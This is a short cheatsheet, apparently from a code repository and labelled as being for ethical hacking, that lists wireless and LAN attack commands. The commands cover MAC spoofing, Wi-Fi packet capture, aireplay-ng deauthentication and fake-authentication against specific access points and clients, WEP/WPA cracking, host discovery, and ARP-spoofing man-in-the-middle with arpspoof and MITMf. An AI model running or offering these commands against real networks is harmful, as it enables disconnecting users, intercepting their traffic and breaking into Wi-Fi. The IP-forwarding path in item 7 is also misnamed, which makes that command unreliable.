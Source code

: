 This is a cheatsheet for commands and tools commonly used for ethical hacking.

1) Change Mac      : a) ifconfig ath0 down b) ifconfig ath0 hw ether <new_mac> c) ifconfig ath0 up

2) Sniffing Packets: a) airodump-ng wlan0 or b) airodump-ng --bssid <ap_mac> --channel <channel> --write <out_file> wlan0

3) Deauth          : a)  aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
4) Fake Auth       : a)  aireplay-ng -1 0 -a 00:14:6C:7E:40:80 -h 00:09:5B:EC:EE:F2 ath0

5) Cracking WEP/WPA: Use of aircrack-ng depends on encryption

6) Reconnaissance  : a) netdiscover -r 10.0.2.1/24 b) nmap / zenmap(GUI)

MITM:
7) ARP Spoof: a) arpspoof -i ath0 -t 10.0.2.9 10.0.2.1 b) arpspoof -i ath0 -t 10.0.2.1 10.0.2.9 c) echo "1" > /proc/sys/net/ipv4/ip_forwarding

8)MITMF     : a) mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.9 -i ath0   --- this command is arp spoof + sniffing
       
